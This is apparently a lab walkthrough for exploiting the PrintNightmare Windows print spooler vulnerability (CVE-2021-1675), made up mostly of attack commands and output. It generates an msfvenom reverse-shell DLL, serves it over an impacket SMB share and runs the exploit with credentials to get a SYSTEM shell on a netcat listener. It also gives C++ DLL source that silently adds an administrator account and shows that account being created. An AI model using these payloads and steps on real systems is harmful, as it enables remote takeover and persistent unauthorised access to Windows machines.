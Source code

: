 Best installation : https://github.com/cube0x0/CVE-2021-1675/issues/19

Create a dll for reverse connection

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.200.101 LPORT=4444 -f dll -o reverse.dll
	[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
	No encoder specified, outputting raw payload
	Payload size: 460 bytes
	Final size of dll file: 8704 bytes
	Saved as: reverse.dll


Start listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444                 
	listening on [any] 4444 ...


Start smb server for sharing dll

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce]
	└─$ sudo /usr/bin/impacket-smbserver share smb -smb2support
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Config file parsed
	[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
	[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
	[*] Config file parsed
	[*] Config file parsed
	[*] Config file parsed


Run exploit (i got error but still could get reverse shell somehow)

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\reverse.dll'          
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\reverse.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	
Check back netcat listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444
	listening on [any] 4444 ...
	connect to [192.168.200.101] from (UNKNOWN) [192.168.200.112] 62863
	Microsoft Windows [Version 10.0.19043.928]
	(c) Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	whoami
	nt authority\system

	C:\Windows\system32>


You can create your own dll with visual studio. Just create a dll project for c++ and copy code below. Select release and x64 then build it

	#include "pch.h"
	#include <stdlib.h>

	BOOL APIENTRY DllMain(HMODULE hModule,
		DWORD  ul_reason_for_call,
		LPVOID lpReserved
	)
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
			system("cmd.exe /c net user adm1n Password123. /add");
			system("cmd.exe /c net localgroup administrators adm1n /add");
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}
	

run exploit

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\adduser.dll'                                   1 ⨯
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\adduser.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	[*] Stage0: 0
	[*] Stage2: 0
	[+] Exploit Completed


check current users in target machine

	C:\Users\testuser>net user adm1n
	User name                    adm1n
	Full Name
	Comment
	User's comment
	Country/region code          000 (System Default)
	Account active               Yes
	Account expires              Never

	Password last set            22/09/2021 14:48:05
	Password expires             03/11/2021 14:48:05
	Password changeable          23/09/2021 14:48:05
	Password required            Yes
	User may change password     Yes

	Workstations allowed         All
	Logon script
	User profile
	Home directory
	Last logon                   Never

	Logon hours allowed          All

	Local Group Memberships      *Administrators       *Users
	Global Group memberships     *None
	The command completed successfully.
